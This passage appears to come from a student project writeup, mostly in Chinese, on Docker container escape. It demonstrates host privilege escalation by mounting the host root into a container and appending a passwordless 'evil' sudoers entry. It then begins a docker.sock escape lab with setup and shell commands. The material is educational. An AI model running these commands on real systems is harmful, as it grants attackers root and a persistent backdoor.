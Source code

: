 ```bash
RUN mkdir -p $WORKDIR
WORKDIR $WORKDIR

docker build -t privesc . # Inside current directory
docker run -v /:/privesc -it privesc /bin/bash

#Inside container
echo "evil ALL=(ALL) NOPASSWD: ALL" >> /privesc/etc/sudoers
cat /privesc/etc/sudoers
whoami # Success!!

```

---

## Mitigation of Privilege Escalation

![Networking%20&%20Multimedia%20Project%200f84e4b88d00401684d12b773ade1121/Untitled.png](Networking%20&%20Multimedia%20Project%200f84e4b88d00401684d12b773ade1121/Untitled.png)

## Exposed Docker Socket

如果 host 端有 mount `docker.sock` 到 container 當中，我們可以透過 `docker.sock` 去進行 container 脫逃。因為 docker socket 有 docker group，可以執行很多不需要 root 權限的 docker command，我們可以藉由這個權限去執行一些沒有這個 socket 無法執行的程式。

### Docker socket

Docker socket 是一種 UNIX 的通訊端，docker cli 常用此執行 docker 指令，擁有 root 的權限。 `docker.sock` 原本不在 container 裡面，但在 container 裡的使用者有時候為了要管理或者建立別的 container，會需要把它 mount 進來。Mount 進來 container 裡會增加 attack surface 的風險。

![Networking%20&%20Multimedia%20Project%200f84e4b88d00401684d12b773ade1121/Picture1.png](Networking%20&%20Multimedia%20Project%200f84e4b88d00401684d12b773ade1121/Picture1.png)

接下來是實驗 Demo 的流程：

### Victim

在進行攻擊之前得先架設好攻擊環境。用 docker 架好一個名為 "sock" 且含有 docker socket 在裡頭的 container。

```bash
docker run -itd --name sock -v /var/run/docker.sock:/var/run/docker.sock alpine:latest
```

### Intruder

檢查 `docker.sock` 是否在 container 之中，通常路徑是 `/var/run/docker.sock`。

```bash
find / -name docker.sock
```

確定存在之後，進到 sock 的 shell 裡面。

```bash
docker exec -it sock sh
```
